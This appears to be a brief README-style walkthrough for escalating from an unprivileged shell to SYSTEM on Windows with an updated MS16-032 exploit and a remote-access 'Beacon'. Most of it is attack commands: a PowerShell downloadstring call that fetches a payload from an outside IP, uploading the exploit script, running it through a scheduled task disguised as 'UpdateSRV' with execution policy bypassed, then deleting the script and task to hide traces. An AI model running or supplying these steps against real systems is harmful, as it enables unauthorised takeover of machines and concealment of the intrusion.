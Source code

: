 ### Updated Exploit ms16-032 to get a Beacon with System Priviledges
* [More Infos here] (https://pentestlab.blog/2017/04/07/secondary-logon-handle/)

You need a unpriviledged Shell/Beacon on the target. Don't forget to change the exploit for your correct ListenerName 
```
... downloadstring('http://172.16.0.5:80/a')) ...
```
### Get a Beacon with System Priviledges
```
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1

Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)

Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1

Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
```

